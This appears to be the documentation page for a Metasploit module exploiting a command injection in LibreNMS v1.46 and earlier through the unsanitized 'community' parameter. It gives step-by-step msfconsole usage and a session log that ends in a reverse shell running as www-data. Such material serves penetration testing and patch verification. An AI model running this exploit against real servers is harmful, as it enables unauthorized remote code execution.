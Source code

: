 ## Description
  
  In LibreNMS `v1.46` and below, there exists a command injection vulnerability in `capture.inc.php`.
  The vulnerable functionality is intended to run a command such as `snmpwalk` and save the output as
  a file. The `community` parameter is an unsanitized parameter retrieved through a POST request to `addhost`,
  and it is used to build the command that is executed in the `capture.inc.php` functionality. The final command
  is passed to the `popen()` function, which results in execution of arbitrary code.

  This module has been tested on LibreNMS `v1.46` and `v1.45`.

## Vulnerable Application

  A vulnerable version of LibreNMS for Ubuntu can be installed using the instructions [here](https://docs.librenms.org/Installation/Installation-Ubuntu-1804-Apache/).
  In the command `composer create-project --no-dev --keep-vcs librenms/librenms librenms dev-master`, replace `dev-master`
  with a vulnerable version of the software, ex: `1.46`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_cmd_injection```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS 1.46 on Ubuntu 18.04

  ```
  msf5 > use exploit/linux/http/librenms_cmd_injection
  msf5 exploit(linux/http/librenms_cmd_injection) > set rhosts 192.168.37.143
  rhosts => 192.168.37.143
  msf5 exploit(linux/http/librenms_cmd_injection) > set username blah
  username => blah
  msf5 exploit(linux/http/librenms_cmd_injection) > set password password
  password => password
  msf5 exploit(linux/http/librenms_cmd_injection) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(linux/http/librenms_cmd_injection) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS
  [+] Successfully added device with hostname dFEzcH
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [+] Successfully deleted device with hostname dFEzcH and id #126
  [*] Command: echo 38eJIFZsiRl3Er48;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n38eJIFZsiRl3Er48\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.143:55380) at 2019-05-29 15:26:02 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```

